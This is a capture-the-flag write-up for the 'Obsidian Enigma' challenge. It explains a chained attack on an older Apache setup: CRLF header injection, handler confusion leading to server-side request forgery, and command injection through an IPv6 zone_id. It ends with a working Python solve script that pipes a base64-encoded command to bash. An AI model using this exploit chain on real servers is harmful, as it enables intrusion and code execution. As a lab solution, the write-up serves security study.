 # Obsidian Enigma

## Synopsis

* The challenge involves a code injection vulnerability, through an SSRF caused by a handler confusion that happens in non-latest versions of Apache.

### Skills Required

* Basic understanding of Apache's Architecture
* Basic understanding of CRLF Header Injection
* Basic Url Encoding knowledge

### Skills Learned

* Performing Handler Confusion Attacks on Apache.
* Perfoming SSRF attacks and double URL encoding.
* Python's `ipaddress.ip_address` accepts IPv6 addresses with zone\_ids.

## Enumeration

### Analyzing the source code

* Opening the source code, we can see that the challenge is running an Apache server with an `index.php` file and a `cgi-bin` directory. The cgi files are written in Python and are used to interact with the server.
* Index page is a simple form that takes a Name and a Domain/IP address as input.

<figure><img src="../../../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>



* Filling out the form we see that the `Attack an IP` button is disabled. As it says, it is only allowed for _trusted_ users.

<figure><img src="../../../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>



Looking at the code of `index.php`:

```javascript
const isLocalIP = (ip) => {
    return ip === "127.0.0.1" || ip === "::1" || ip.startsWith("192.168.");
};

const userIP = "<?php echo $_SERVER['REMOTE_ADDR']; ?>";
```

* So if it's a local IP the button is enabled.

Buttons:

* Attack a domain: Visits the `/cgi-bin/attack-domain.py`
* Attack an IP: Visits the `/cgi-bin/attack-ip.py`

Looking at the code of `attack-domain.py`:

```python
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

* The code is simple, it checks if the target is a domain and then pings it.
* Looking at the code of `attack-ip.py`:

```python
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
```

* Similar to the previous code, but this time it validates if the target is an IP address by calling the `ip_address` function.

Checking the Apache configuration file:

```apache
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

* The `attack-ip` location is only allowed for local IPs.
* The application sets the `application/x-httpd-php` type for `.php` files.
* Thoughts:
  * The parameters in the cgi scripts are not sanitized but only checked. If we could bypass either of the checks, we could exploit the system by injecting code.
  * Since there is a local only page, we try to think of a possible SSRF attack.

## Solution

### Finding the vulnerability

* The cgi-bin files on error print the name of the user. This can lead to a CRLF injection.

```python
print(f'Location: ../?error=Hey {name}, watch it!')
```

* The application adds a Type for the `.php` files instead of securely setting the handler. This can lead to handler confusion as explained [here](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#%F0%9F%94%A5-3-Handler-Confusion).
* This vulnerability is now fixed for the most part in the latest versions of Apache. But we can see that the docker image is running an older version of Apache.
* This can lead to full GET SSRF attacks which gets us to the next step.
* The `ip_address` function is used to verify if the target is an IP address. As explained in [this](https://blog.slonser.info/posts/ipv6-zones/) post, we can _bypass_ this by giving an IPv6 adress with a `%` sign followed by our payload.

### Exploitation

* We begin with the handler confusion via CRLF injection. We can inject a new header to the response with the name parameter.
* Example:

```python
handler = 'server-status'

r =  get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(r.text)
```

* The cgi response has a new header `Content-Type: server-status` which means the handler is now set to a prebuilt `server-status` handler.
* The response text is indeed the server status page.
* We can now perform a SSRF attack by setting the handler to `proxy:http://127.0.0.1/cgi-bin/attack-ip`.

Some issues:

* The get parameters of the `attack-ip` page need to be url encoded.
* The zone\_id of the IPv6 address needs to be url encoded as well, so we double encode it.
* We cant have `/` in the zone\_id.
* The proxy seems to append a `/var/www/html` to the url so we a dummy parameter catches this.

#### Getting the flag

* The flag is located at `/flag-<random>.txt` so we can use a command to get the flag and write it to a file in the webroot.
* Solve script:

```python
from requests import get
url = 'http://localhost:1337'

def quote(s):
    return ''.join([f'%{hex(ord(c))[2:]}' for c in s])
def dquote(s):
    return quote(quote(s))

from base64 import b64encode
payload = b64encode(b'cat /flag* > /var/www/html/flag.txt').decode()

handler = f'proxy:http://127.0.0.1/cgi-bin/attack-ip?name=asfs{quote('&')}target=::1{dquote(f"%; echo \"{payload}\" | base64 -d | bash")}{quote('&')}dummy='

get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(get(f'{url}/flag.txt').text)
```
